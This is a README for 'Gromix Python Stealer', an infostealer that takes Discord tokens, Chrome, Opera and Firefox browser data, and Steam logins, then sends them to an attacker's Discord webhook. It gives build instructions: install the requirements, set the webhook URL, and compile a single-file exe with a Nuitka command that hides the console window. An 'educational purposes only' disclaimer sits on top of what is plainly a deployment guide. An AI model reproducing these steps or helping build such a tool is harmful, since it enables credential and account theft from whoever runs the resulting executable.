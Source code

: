 # :heartpulse: _**Gromix Python Stealer**_ :heartpulse:
### :police_car: _DISCLAIMER: This program is for educational purposes only._ :police_car:

<details>
  <summary>Important info</summary>
  <i>This stealer is very, VERY new and needs a lot of work</i>
</details>

## What data can it steal ?
- :closed_book: Discord tokens
- :closed_book: Google Chrome
- :closed_book: Opera
- :closed_book: Firefox
- :closed_book: Steam login / installed apps

## Features
- [x] Build using Nuitka
- [x] Send all data by Discord webhooks.
- [x] Custom ico

## How to build

:bangbang: *INSTALL ALL REQUIREMENTS BEFORE BUILDING*

```console
pip install -r requirements.txt
```

Just put your Discord webhook inside _webhook.txt_ file. Then:
```console
python build.py
```
After that our exe file will start to generate.
I build this on Python 3.10, final .exe file size is **28717 KB** :floppy_disk:

If you're having troubles with _build.py_ script, just edit constant inside _utils.py_:
```python
WEBHOOK = "https://discord.com/api/webhooks/2281488/something"
```
Then, execute this command:
```console
python -m nuitka --standalone --onefile --disable-console --windows-icon-from-ico=icon.ico stealer.py
```
